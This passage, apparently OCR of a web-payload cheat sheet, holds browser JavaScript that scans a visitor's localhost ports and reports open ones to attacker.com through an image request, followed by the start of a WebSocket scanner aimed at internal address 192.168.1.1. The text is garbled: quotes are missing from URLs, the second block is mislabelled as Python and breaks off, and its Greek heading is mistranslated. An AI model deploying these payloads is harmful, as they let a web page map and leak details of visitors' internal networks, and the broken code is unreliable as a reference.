 ```javascript
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```
### Σαρωτής Θερμοφυσικών Θυρών (websockets)
```python
var ports = [80, 443, 445, 554, 3306, 3690, 1234];
for(var i=0; i<ports.length; i++) {
var s = new WebSocket("wss://192.168.1.1:" + ports[i]);
